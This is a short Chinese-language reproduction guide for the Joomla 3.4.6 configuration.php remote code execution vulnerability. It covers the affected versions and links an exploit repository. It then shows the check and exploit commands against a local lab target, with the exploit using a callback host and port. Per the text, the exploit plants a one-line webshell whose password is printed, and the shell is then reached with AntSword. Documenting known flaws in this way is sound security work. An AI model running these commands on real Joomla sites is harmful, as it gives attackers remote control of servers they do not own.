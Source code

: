 # Joomla 3.4.6 configuration.php 远程代码执行

### 一、漏洞简介

Joomla 3.4.6 - 'configuration.php' Remote Code Execution

### 二、影响范围

Joomla 3.0.0 至 3.4.6

### 三、复现过程

`https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution`

**脚本验证**

验证：


```bash
python3 test.py -t http://127.0.0.1:8080/
```

![](images/15890750081551.png)


显示“Vulnerable”证明存在漏洞

利用：


```bash
python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121
```

![](images/15890750204211.png)


执行成功

并在`“configuration.php”`写入随机密码的一句话木马

![](images/15890750314952.png)


上图的密码为：`kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi`

蚁剑链接测试

![](images/15890750456274.png)
